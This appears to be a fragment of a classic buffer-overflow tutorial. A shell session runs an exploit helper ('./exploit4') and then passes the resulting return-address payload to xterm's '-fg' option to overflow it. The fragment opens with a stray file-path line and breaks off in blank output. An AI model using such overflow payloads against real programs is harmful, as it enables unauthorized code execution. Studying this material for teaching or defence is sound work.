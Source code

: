    Works like a charm. Now lets try it on xterm:

------------------------------------------------------------------------------
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
"












































































